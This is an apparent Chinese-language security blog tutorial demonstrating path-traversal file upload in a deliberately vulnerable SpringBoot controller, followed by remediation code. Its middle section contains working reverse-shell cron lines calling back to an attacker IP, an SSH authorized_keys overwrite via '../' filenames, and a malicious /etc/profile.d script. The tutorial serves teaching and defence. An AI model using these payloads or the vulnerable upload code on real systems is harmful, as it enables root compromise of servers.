SpringBoot框架文件上传的Trick 前言 Spring Boot 是一款基于 Spring 框架的快速开发 Web 应用的工具。它提供了很多功能强大的框架和引擎，如 Thymeleaf、Freemarker、Mustache 等，能够帮助开发者高效、便捷地实现各种需求。与其它框架不同的是，Spring Boot 应用程序默认不解析 JSP 页面。而且tomcat中间件大多数都是嵌入在jar里面的。虽然这导致在灵活性和可扩展性方面具有优势，但如果没有适当的措施来处理上传文件的内容，就会给恶意用户提供机会，利用此漏洞获取系统权限，甚至造成数据泄露等严重后果。
demo分析 创建一个springboot项目 创建一个工程

FileUploadHazards


创建Java文件夹

配置springboot 配置pom.xml
放在 里面
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 <!-- 继承父包 --> <parent> <groupId>org.springframework.boot</groupId> <artifactId>spring-boot-starter-parent</artifactId> <version>2.0.7.RELEASE</version> </parent> <dependencies> <!-- web启动jar --> <dependency> <groupId>org.springframework.boot</groupId> <artifactId>spring-boot-starter-web</artifactId> </dependency> <dependency> <groupId>org.projectlombok</groupId> <artifactId>lombok</artifactId> <version>1.18.6</version> <scope>provided</scope> </dependency> </dependencies>
放在 里面
1 2 3 4 5 6 7 8 9 <resources> <resource> <directory>src/main/resources</directory> <includes> <include>**/*.*</include> </includes> <filtering>true </filtering> </resource> </resources>
完整的pom.xml
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 <?xml version="1.0" encoding="UTF-8" ?> <project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd" > <modelVersion>4.0.0</modelVersion> <groupId>org.example</groupId> <artifactId>FileUploadHazards</artifactId> <version>1.0-SNAPSHOT</version> <packaging>war</packaging> <name>FileUploadHazards Maven Webapp</name> <!-- FIXME change it to the project's website --> <url>http://www.example.com</url> <properties> <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding> <maven.compiler.source>1.7</maven.compiler.source> <maven.compiler.target>1.7</maven.compiler.target> </properties> <!-- 继承父包 --> <parent> <groupId>org.springframework.boot</groupId> <artifactId>spring-boot-starter-parent</artifactId> <version>2.0.7.RELEASE</version> </parent> <dependencies> <!-- web启动jar --> <dependency> <groupId>org.springframework.boot</groupId> <artifactId>spring-boot-starter-web</artifactId> </dependency> <dependency> <groupId>org.projectlombok</groupId> <artifactId>lombok</artifactId> <version>1.18.6</version> <scope>provided</scope> </dependency> <dependency> <groupId>junit</groupId> <artifactId>junit</artifactId> <version>4.11</version> <scope>test</scope> </dependency> </dependencies> <build> <finalName>FileUploadHazards</finalName> <pluginManagement><!-- lock down plugins versions to avoid using Maven defaults (may be moved to parent pom) --> <plugins> <plugin> <artifactId>maven-clean-plugin</artifactId> <version>3.1.0</version> </plugin> <!-- see http://maven.apache.org/ref/current/maven-core/default-bindings.html#Plugin_bindings_for_war_packaging --> <plugin> <artifactId>maven-resources-plugin</artifactId> <version>3.0.2</version> </plugin> <plugin> <artifactId>maven-compiler-plugin</artifactId> <version>3.8.0</version> </plugin> <plugin> <artifactId>maven-surefire-plugin</artifactId> <version>2.22.1</version> </plugin> <plugin> <artifactId>maven-war-plugin</artifactId> <version>3.2.2</version> </plugin> <plugin> <artifactId>maven-install-plugin</artifactId> <version>2.5.2</version> </plugin> <plugin> <artifactId>maven-deploy-plugin</artifactId> <version>2.8.2</version> </plugin> </plugins> </pluginManagement> <resources> <resource> <directory>src/main/resources</directory> <includes> <include>**/*.*</include> </includes> <filtering>true</filtering> </resource> </resources> </build> </project>
创建一个文件，命名为application.yml，放在resources(原本没有，需要创建)
创建一个包，然后在里面创建一个Controller
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 package com.garck3h.controller;import org.springframework.stereotype.Controller;import org.springframework.web.bind.annotation.GetMapping;import org.springframework.web.bind.annotation.RequestMapping;@Controller @RequestMapping("/upload") public class FileUploadHandler { @GetMapping("/index") public void upload () { System.out.println("index..." ); } }

创建一个启动类Application进行测试，注意启动类是放在controller的上一层
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 package com.garck3h;import org.springframework.boot.SpringApplication;import org.springframework.boot.autoconfigure.SpringBootApplication;@SpringBootApplication public class Application { public static void main (String[] args) { SpringApplication.run(Application.class,args); } }

访问测试，成功打印了index… ；说明我们的项目没有问题了

文件上传的demo 这里写一个REST 风格的控制器
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 package com.garck3h.controller;import org.springframework.web.bind.annotation.PostMapping;import org.springframework.web.bind.annotation.RequestParam;import org.springframework.web.bind.annotation.RestController;import org.springframework.web.multipart.MultipartFile;import java.io.File;import java.io.IOException;import java.nio.file.Files;import java.nio.file.Path;import java.nio.file.Paths;@RestController public class FileUploadController { @PostMapping("/upload") public String uploadFile (@RequestParam("file") MultipartFile file) { if (file.isEmpty()) { return "文件为空!" ; } try { String resourcePath = System.getProperty("user.dir" ); String folderPath = resourcePath + File.separator + "data" + File.separator + "upload" + File.separator; String fileName = file.getOriginalFilename(); System.out.println("folderPath1：" +folderPath); File folderDir = new File (folderPath); if (!folderDir.exists()) { folderDir.mkdirs(); } byte [] bytes = file.getBytes(); Path path = Paths.get(folderPath + fileName); Files.write(path, bytes); return "文件上传成功!\n" + "路径：" + path; } catch (IOException e) { e.printStackTrace(); return "文件上传失败!" ; } } }
前端的upload.html放在webapp目录中
upload.html
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 <!DOCTYPE html> <html> <head> <meta charset="UTF-8" > <title>File Upload</title> </head> <body> <div> <form action="/upload" method="POST" enctype="multipart/form-data" > <label for ="file" >选择文件:</label> <input type="file" name="file" id="file" ><br><br> <button type="submit" >Upload</button> </form> </div> </body> </html>
访问ip:port/upload.html；进行文件上传

上传成功
打包为jar部署到Linux 修改一下pom.xml
1 2 3 4 5 6 7 8 9 10 11 12 <packaging > jar</packaging > <plugins > <plugin > <groupId > org.springframework.boot</groupId > <artifactId > spring-boot-maven-plugin</artifactId > </plugin > </plugins >
打包

把FileUploadHazards.jar上传到Linux的/tmp进行启动。

由于我们这里没有tomcat了，所以没办法访问upload.html来进行文件上传。但我们可以通过burp发包访问接口来上传。

查看服务器成功看到了我们上传的123.jpg

利用../指定文件存储目录 尝试通过../来把我们上传的文件放到上一层目录，也就是我们的/tmp/data目录下。下图可见成功控制存储到了上一层目录

利用姿势一(定时任务) 由于crond 守护进程在后台静默地检查 /etc/crontab 文件和/var/spool/cron 及 /etc/cron.d/目录。
定时任务的路径有
1 2 3 4 5 /var /spool/cron/root #文件要以用户名称存在 /etc/cron.d #这里的文件（任意名称和后缀），也会被轮询加载执行 /etc/cron.daily/ #下面的任务都是每天6 ：25 执行 /etc/cron.weekly/ #下面的任务都是每周日 6 ：47 执行 /etc/cron.monthly/ #下面的任务都是每月1 号 6 ：52 执行
用法
1 2 0 12 * * * echo rce >> /tmp/hello#分 时 日 月 周 |《==============命令行=======================》|
查看crond的运行状态

利用路径一 条件：
目标服务器的cron正常运行
上传路径可以控制
可以上传任意后缀文件，因为这里需要上传root命名的文件
上传到：/var/spool/cron/ （需要有读写的权限）
nc监听
1 2 nc -lvnp 7799 #直接监听 nc -lvnp 7799 -s 192.168 .88 .133 #指定IP监听
上传文件到 /var/spool/cron/root 中。(centos系列主机)
上传文件到 /var/spool/cron/crontabs/root 中。(Debian/Ubuntu系列主机)
1 2 */1 * * * * /bin/bash -i>&/dev/tcp/192.168 .88 .133 /7799 0 >&1
上传的文件名需为用户名称，如：root、test等用户

这里踩了个坑，因为我攻击机是win，然后目标是Linux，换行会涉及到一些编码的问题，直到我在notepad++上转为Unix之后才能成功。

成功反弹shell

利用路径二 条件
因为在/etc/cron.d这个目录下，任意后缀的文件都可以执行，我们创建一个每分钟执行一次的定时任务；并且把结果输出到/tmp下的haha文件中（注意这里要添加一个用户名）
1 2 */1 * * * * root /bin/bash -i>&/dev/tcp/192.168 .88 .133 /7799 0 >&1
首先我们确认/var/spool/cron下是没有任何文件的

burp上传

nc进行监听
成功反弹shell

利用姿势二（替换公钥） 利用条件：
上传路径可以控制
对文件名无限制
目标开启ssh端口
支持密钥登录
生成公私钥 使用ssh-keygen生成公钥和私钥
ssh-keygen -t “加密方式” -C“描述”
三次回车即可

安装公钥
1 2 cd /root/.ssh cat id_rsa.pub >> authorized_keys

更改权限
authorized_keys需要600
.ssh需要700
1 2 chmod 600 ~/.ssh/authorized_keys chmod 700 ~/.ssh
开启公钥登录 1 2 vim /etc/ssh/sshd_config PubkeyAuthentication no改为yes

重启ssh服务
1 systemctl restart sshd.service
攻击者生成公钥 使用ssh-keygen生成公钥和私钥

把生成的id_rsa.pub上传到目标服务器
1 /../../../../../../../root/.ssh/authorized_keys

在攻击者的机器上使用公钥成功连接目标
1 ssh root@192.168 .88 .104 -p 22

利用姿势三（终端自启动） 条件：
路径可以控制
.sh后缀未被禁止
对/etc/profile目录有写权限
打开profile文件分析得知，用户打开bash窗口就会执行/etc/profile.d目录下所有.sh文件

上传一个rce.sh后缀的文件到目标的/etc/profile.d目录下，其rce.sh的内容为反弹shell的内容

nc进行监听
模拟管理员登录目标终端，成功在nc上接受到了shell

修复建议
对上传文件的类型进行检查，只允许上传指定的文件类型。
对上传文件的大小进行限制，以避免过大的文件占用服务器资源。
校验文件名称，过滤../
对上传文件进行重命名，以防止恶意覆盖其他文件或者构造路径遍历攻击。
对demo进行简单修复 对文件重命名，这里添加上一个时间戳
1 String fileName = System.currentTimeMillis() + "_" + file.getOriginalFilename();
检查是否包含../
1 2 3 4 5 6 if (originalFileName.contains("../" )) { } else { }
限制文件类型
1 2 3 4 5 6 7 8 9 10 11 12 13 List<String> allowedExtensions = Arrays.asList("png" , "jpg" , "gif" ); String originalFileName = file.getOriginalFilename(); String extension = originalFileName.substring(originalFileName.lastIndexOf('.' ) + 1 );if (!allowedExtensions.contains(extension)) { return "文件类型不合法!" ; } else { }
最终的demo
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 package com.garck3h.controller;import org.springframework.web.bind.annotation.PostMapping;import org.springframework.web.bind.annotation.RequestParam;import org.springframework.web.bind.annotation.RestController;import org.springframework.web.multipart.MultipartFile;import java.io.File;import java.io.IOException;import java.nio.file.Files;import java.nio.file.Path;import java.nio.file.Paths;import java.util.Arrays;import java.util.List;@RestController public class FileUploadController { @PostMapping("/upload") public String uploadFile (@RequestParam("file") MultipartFile file) { if (file.isEmpty()) { return "文件为空!" ; } List<String> allowedExtensions = Arrays.asList("png" , "jpg" , "gif" ); String originalFileName = file.getOriginalFilename(); String extension = originalFileName.substring(originalFileName.lastIndexOf('.' ) + 1 ); if (!allowedExtensions.contains(extension)) { return "文件类型不合法!" ; } else { try { String resourcePath = System.getProperty("user.dir" ); String folderPath = resourcePath + File.separator + "data" + File.separator + "upload" + File.separator; String fileName = System.currentTimeMillis() + "_" + file.getOriginalFilename(); if (originalFileName.contains("../" )) { return "不允许包含../" ; } else { File folderDir = new File (folderPath); if (!folderDir.exists()) { folderDir.mkdirs(); } byte [] bytes = file.getBytes(); Path path = Paths.get(folderPath + fileName); Files.write(path, bytes); return "文件上传成功!\n" + "路径：" + path; } } catch (IOException e) { e.printStackTrace(); return "文件上传失败!" ; } } } }
测试../是否生效，测试结果OK

测试后缀是否生效，测试结果OK

测试重命名是否生效，测试结果OK

总结 本文简单诠释了一下SpringBoot任意文件上传且路径可控的情况下带来的一些危害。以一个简单的代码例子来进行分析，分别从三个姿势来进行深入利用。最后对demo进行了简单的修复，主要是从校验文件类型、重命名文件和过滤../来实现。
声明： 本文仅限技术研究与交流，严禁用于非法用途，否则产生的一切后果自行承担！转载_请注明来源!!!